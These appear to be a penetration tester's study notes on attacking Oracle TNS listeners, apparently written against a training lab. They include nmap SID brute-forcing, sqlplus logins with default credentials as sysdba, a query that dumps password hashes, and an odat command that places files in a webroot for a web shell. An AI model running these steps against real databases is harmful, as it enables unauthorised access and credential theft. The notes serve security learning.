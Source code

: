 - **tags:** #common-services #OracleTNSLister
- ---------------------
# Introduction
The *Oracle Transparent Network Substrate* (*TNS*) server is a communication protocol that facilitates communication between Oracle databases and applications over networks. By default, the listener listens for incoming connections on the `TCP/1521` port. 
## System Identifiers (SID)
In *Oracle RDBMS*, a *System Identifier* (`SID`) is a **unique name that identifies a particular database instance**. It can have multiple instances, each with its own System ID. An instance is a set of processes and memory structures that interact to manage the database's data. When a client connects to an Oracle database, it specifies the database's `SID` along with its connection string.
# Footprinting
By default, the listener listens for incoming connections on the `TCP/1521` port. 
```bash
nmap -p1521 -sV 10.129.204.235 --open
```
There are various ways to enumerate, or better said, guess SIDs. Therefore we can use tools like [[nmap]], [[hydra]], *odat*, and others.
```bash
# Brute-Forcing SID
nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
# Log In
We can use `sqlplus` to log in to the *Oracle DB*:
```bash
# sqlplus <username>/<password>@<targetIP>/<SID>
sqlplus scott/tiger@10.129.204.235/XE

# impersonating sysdba user
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
## Navigation
```sql
-- list all tables
select table_name from all_tables;
-- list privileges
select * from user_role_privs;
-- dump password hashes
select name, password from sys.user$;
```
# RCE
We may try to upload a web shell using *odat* in of the following default paths if the server is also running a web service:

| OS      | Path               |
| ------- | ------------------ |
| Linux   | /var/www/html      |
| Windows | C:\inetpub\wwwroot |
```bash
odat utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```